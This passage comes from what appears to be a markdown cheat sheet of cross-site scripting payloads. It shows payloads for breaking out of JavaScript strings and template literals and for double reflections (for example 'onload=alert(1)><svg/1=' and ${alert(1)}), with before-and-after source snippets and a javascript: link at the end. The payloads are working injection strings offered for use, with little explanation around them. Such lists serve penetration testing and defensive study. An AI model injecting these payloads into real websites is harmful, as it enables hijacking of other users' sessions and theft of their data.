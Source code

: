 * Example source code
```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'REFLECTED_HERE';
  }
</script>
```

* After input the payload
```html
<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```

> Payload number 2 uses when quote escaped by backslash

11. Use when input lands inside backticks delimited strings
```html
${alert(1)}
```

* Example source code
```html
<script>
    var dapos = `REFLECTED_HERE`;
</script>
```

* After input the payload
```html
<script>
    var dapos = `${alert(1)}`;
</script>
```

12. Uses when there is multiple reflections on same page. (Double Reflection)
```html
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```

* After input the payload
```html
<!DOCTYPE html>
<html>
<body>
'onload=alert(1)><svg/1='
[...]
'onload=alert(1)><svg/1='
</body>
</html>
```


[a]: (javascript:prompt(1))